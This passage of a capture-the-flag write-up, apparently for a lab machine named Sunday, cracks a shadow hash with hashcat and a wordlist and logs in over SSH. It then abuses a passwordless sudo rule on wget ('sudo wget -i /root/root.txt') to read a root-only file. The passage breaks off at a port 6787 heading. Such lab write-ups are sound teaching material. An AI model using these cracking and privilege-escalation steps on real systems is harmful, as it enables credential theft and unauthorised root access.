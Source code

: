 ###### `Cracking the Shadow Hash`
```
# hashcat -m 7400 -a 0 shadowkey /usr/share/wordlists/rockyou.txt
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

Cool. We got the password for `Sammy's` Shell. Let's SSH and get a user flag.
```
# ssh sammy@10.10.10.76 -p 22022
-bash-5.1$ id
uid=100(sammy) gid=10(staff)
-bash-5.1$ cat /home/sammy/user.txt
623w******************************
```

### `Privilege Escalation`

###### `sudo -l to check what I can run without PASSWD`
```
-bash-5.1$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

###### `Grabbing the root flag`
```
-bash-5.1$ sudo wget -i /root/root.txt
--2024-10-04 00:27:06--  http://cc83c333989e56fe7b9cab83e5d85780/
Resolving cc83c333989e56fe7b9cab83e5d85780 (cc83c333989e56fe7b9cab83e5d85780)... failed: temporary name resolution failure.
wget: unable to resolve host address ‘cc83c333989e56fe7b9cab83e5d85780’
-bash-5.1$ 
```

I was able to run the `wget command` without providing password so I used the `-i` switch to provide the `/root/root.txt` file as an input file and it prints the root flag.

### `Web on Port 6787`
